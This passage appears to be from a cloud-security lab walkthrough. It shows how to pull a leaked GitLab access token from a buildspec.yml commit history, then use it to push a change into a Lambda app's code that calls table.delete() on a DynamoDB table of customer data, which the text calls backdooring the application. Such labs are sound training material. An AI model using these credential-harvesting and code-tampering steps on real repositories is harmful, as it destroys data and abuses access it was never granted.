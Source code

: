 The repository contains the backend code of the Lambda function exposed through the API gateway. Check the commit history to note a leaked access token:  

`cd scenario8_<user_id>`  
`git log`  
`git show .....`

```diff
commit 0ca720ac2d27ae5a3a1b05ebe2c7f18aeba82b75 (HEAD -> main, origin/main, origin/HEAD)
Author: .....
Date:   .....

    buildspec.yml file - hardcoded keys removed

diff --git a/buildspec.yml b/buildspec.yml
index cce1afe..58059b8 100644
--- a/buildspec.yml
+++ b/buildspec.yml
@@ -8,9 +8,9 @@ phases:
     commands:
     - echo $LAMBDA_TASK_ROOT
     - echo "Get source from GitLab repository"
-    - git clone http://developer_<user_id>:<token>@<EC2_IP_ADDRESS>/root/scenario8_<user_id>.git
+    - git clone http://$USER:$TOKEN@$ADDRESS/root/scenario8_$USERID.git
     - echo "Building Docker image"
-    - docker build ./scenario8_<user_id> -t $ECR_REPOSITORY:latest
+    - docker build ./scenario8_$USERID -t $ECR_REPOSITORY:latest
   post_build:
     commands:
     - echo "Pushing Docker image to ECR"
```

## Step 5

These credentials you found belong to the user `developer_<user_id>`, who has pull and push access to this repository. Use this access to backdoor the application and delete table with the sensitive data that customers are sending to the API!

- Clone repository again with developer token:  

`git clone http://developer_<user_id>:<token>@<EC2_IP_ADDRESS>/root/scenario8_<user_id>.git`  

`cd scenario8_<user_id>`

- For instance, add a piece of code into app.py that delete targetdb-<user_id> table with data:

`table.delete()`

```diff --git a/app.py b/app.py
new file mode 100644
index 0000000..ed7fbfc
--- /dev/null
+++ b/app.py
@@ -0,0 +1,70 @@
import json
import boto3
from boto3.dynamodb.conditions import Attr
from decimal import Decimal

dynamodb = boto3.resource('dynamodb')

table = dynamodb.Table('targetdb-<user_id>')
+table.delete()
def handle(event):
```
